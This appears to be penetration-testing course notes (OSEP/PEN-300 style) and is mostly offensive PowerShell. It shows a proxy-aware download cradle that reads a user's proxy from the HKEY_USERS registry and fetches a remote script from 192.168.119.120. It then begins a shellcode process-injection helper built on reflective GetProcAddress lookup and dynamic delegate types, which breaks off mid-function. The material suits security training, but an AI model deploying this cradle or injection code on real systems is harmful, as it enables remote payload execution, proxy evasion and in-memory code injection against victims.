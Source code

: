 ### **Proxy Aware**

**Proxy-Aware powershell download cradle running in SYSTEM integrity** !\[\[LRcFdF7cI78-csceo\_proxy\_reg.png]]

```powershell
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}}
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.119.120/run2.ps1")
```

The registry hives are divided and named after the SIDs of existing users and there is a specific pattern. Any SID starting with "S-1-5-21-" is a user account exclusive of built-in accounts.[5](https://portal.offsec.com/courses/pen-300/books-and-videos/modal/modules/client-side-code-execution-with-office/talking-to-the-proxy/give-me-a-system-proxy#fn5)

To obtain a valid user hive, we can loop through all top level entries of the HKEY\_USERS until we find one with a matching SID. Once we find one, we can filter out the lower 10 characters leaving only the SID, while omitting the HKEY\_USERS string.

We can find all the top-level HKEY\_USERS with the _Get-ChildItem_[6](https://portal.offsec.com/courses/pen-300/books-and-videos/modal/modules/client-side-code-execution-with-office/talking-to-the-proxy/give-me-a-system-proxy#fn6) cmdlet and use a _ForEach_ loop to find the first that contains a SID starting with "S-1-5-21-".

Once we find the first record, we'll save it in the _$start_ variable and exit the loop through the _break_[7](https://portal.offsec.com/courses/pen-300/books-and-videos/modal/modules/client-side-code-execution-with-office/talking-to-the-proxy/give-me-a-system-proxy#fn7) statement

## Process Injection

### **Original inspired by** [**chvancooten**](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Injector/Shellcode%20Process%20Injector.ps1)

```powershell
function LookupFunc {
	Param ($moduleName, $functionName)
	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
    Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {
    Param ( 
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

    $type = [AppDomain]::CurrentDomain. DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('InMemoryModule', $false).
    DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
    [System.MulticastDelegate])

```